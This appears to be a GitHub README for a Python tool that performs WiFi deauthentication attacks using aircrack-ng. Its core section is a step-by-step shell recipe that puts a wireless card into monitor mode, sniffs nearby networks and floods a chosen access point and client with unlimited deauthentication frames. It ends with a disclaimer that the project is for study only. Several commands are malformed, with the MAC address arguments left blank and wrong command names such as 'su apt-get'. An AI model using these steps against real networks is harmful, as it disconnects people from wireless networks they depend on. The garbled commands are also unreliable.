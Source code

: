 [![GitHub issues](https://img.shields.io/github/issues/voltwu/WIFI-Deauthentication-Attack.svg)](https://github.com/voltwu/WIFI-Deauthentication-Attack/issues)
[![GitHub forks](https://img.shields.io/github/forks/voltwu/WIFI-Deauthentication-Attack.svg)](https://github.com/voltwu/WIFI-Deauthentication-Attack/network)
[![GitHub stars](https://img.shields.io/github/stars/voltwu/WIFI-Deauthentication-Attack.svg)](https://github.com/voltwu/WIFI-Deauthentication-Attack/stargazers)

# Introduction
Wifi deauthentication attack allows attackers to send frames from an access point to a station,even though the attack is not in the network.

Actually, send deauthentication frame is a normal functionality on all routers, almost all routers need to send special frames to inform rogue station to get out of network.

# Requirement
1. aircrack-ng
    ```
    su apt-get install aircrack-ng
    ```
    
2. ifconfig
    ```
    su apt-get install net-tools
    ```

3. iwconfig
    ```
    su sudo apt install wireless-tools
    ```

4. mac_address.csv

    the *mac_address.csv* contains OUI(Orgnazition Unique identifier)s and corresponds company names. first column is OUI and second column is Company.
    
    format:
    ```
    oui,company
    xx:xx:xx,xxx
    xx:xx:xx:x,xxx
    ```
    
    I downloaded *mac_address.csv* from [https://macaddress.io/database/macaddress.io-db.csv](https://macaddress.io/database/macaddress.io-db.csv), edit the file to only contain *oui* and *company* column,rename the file to *macaddress.csv*. then move the *macaddress.csv* file into the same directory as *deauth.py*.
    

# The Core Concept

This project completely builds on `aircrack-ng` package. below is core steps how to pose a deauthentication attack on the shell.

1. check the wireless interface name

    ```
    iwconfig
    ```

2. put wireless interface into monitor mode

    ```
    airmon-ng start wlan0
    ```

3. check the wireless interface name again

    Normally, the step2 will change the wireless interface's name. in the majority of cases, it will append `mon` on the previous name's end.
    ```
    iwconfig
    ```

4. sniff data on traffics
    ```
    airodump-ng wlan0mon
    ```

5. sniff data on specific network traffic

    ```
    airodump-ng -d -c  wlan0mon
    ```

6. send deauthentication frames

    ```
    aireplay --deauth 0 -a -c wlan0mon
    ```


# How to use deauth.py
1. download deauth

    ```
    su apt-get wget 
    ```
    
2. run it with python3.x

    ```
    python3 deauth.py
    ```

# Disclaimer
Don't use this project to do any illegal things. it's only used for the study. responsibilities arising from the use of this project have nothing to do with the author.


